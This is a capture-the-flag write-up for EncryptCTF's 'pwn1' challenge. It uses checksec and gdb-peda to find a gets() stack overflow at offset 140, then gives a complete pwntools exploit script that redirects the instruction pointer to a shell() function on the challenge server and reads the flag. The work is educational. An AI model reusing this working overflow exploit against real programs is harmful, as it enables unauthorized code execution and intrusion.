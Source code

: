 ## EncryptCTF: pwn1
##### *tl;dr: buffer overflow to change instruction pointer*
#### This challenge is basically just like the previous challenge pwn0, where we can take advantage of a vulnerable gets call to overwrite the buffer, smash the stack, and change the control flow. We start with security measure recon:
```
$ checksec pwn1
[*] '/home/venom/Desktop/encryptCTF_writeup/pwn1_SOLVED/pwn1'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
````
#### As we can see, same as the previous challenge, where NX is enabled but no canary is guarding the stack. We perform a test drive with the binary:
```
$ ./pwn1
Tell me your name: arieees666
Hello, arieees666
```
#### Asks for our name, and prints it out - nothing interesting here, we'd rather fire up gdb and start listing and disassembling functions.
```
$ gdb ./pwn1
  gdb-peda$ info functions
    0x080484ad  shell
    0x080484c1  main
```
#### We see two interesting functions, and one of which is named shell. But before we get to that, we start by taking a look at main.
```
gdb-peda$ disas main
  [...]
   0x080484f9 <+56>:	call   0x8048350 <printf@plt>
   0x080484fe <+61>:	lea    eax,[esp+0x10]
   0x08048502 <+65>:	mov    DWORD PTR [esp],eax
   0x08048505 <+68>:	call   0x8048360 <gets@plt>
   0x0804850a <+73>:	lea    eax,[esp+0x10]
```
#### Again, there's our gets call which is the entry point for our exploit. Next, we disassemble the shell function: 
```
gdb-peda$ disas shell
Dump of assembler code for function shell:
   0x080484ad <+0>:	push   ebp
   0x080484ae <+1>:	mov    ebp,esp
   0x080484b0 <+3>:	sub    esp,0x18
   0x080484b3 <+6>:	mov    DWORD PTR [esp],0x80485c0
   0x080484ba <+13>:	call   0x8048370 <system@plt>
   0x080484bf <+18>:	leave  
   0x080484c0 <+19>:	ret    
End of assembler dump.
```
#### We see a call to system, which gives us a shell. So we know now what to do: overwrite the eip register and point it to the address of the shell function to give us shell control. We do another pattern create and get the offset needed.
```
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

gdb-peda$ r
Starting program: /home/venom/Desktop/encryptCTF_writeup/pwn1_SOLVED/pwn1 
Tell me your name: 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
[...]
EIP: 0x416d4141 ('AAmA')
Stopped reason: SIGSEGV
0x416d4141 in ?? ()
[...]

gdb-peda$ pattern offset AmAA
AmAA found at offset: 140
```
#### Now that we have what we need, we create an exploit script, send it to our challenge server, and interact with the shell that we have:
##### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = '104.154.106.182' 
PORT = 2345
p = remote(HOST,PORT)
print(p.recv())

#: Exploit code
offset = 'A' * 140
shell = p32(0x80484ad)
exploit = offset + shell

#: Send payload
p.sendline(exploit)
print(p.recv())
p.interactive()
```
#### Execute our script, access our shell, get the flag!
```
$ python exploit.py
[+] Opening connection to 104.154.106.182 on port 2345: Done
Tell me your name: 
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xad\x84\x0

[*] Switching to interactive mode
$ ls
flag.txt
pwn1
$ cat flag.txt
encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}
$ 
[*] Interrupted
[*] Closed connection to 104.154.106.182 port 2345
```
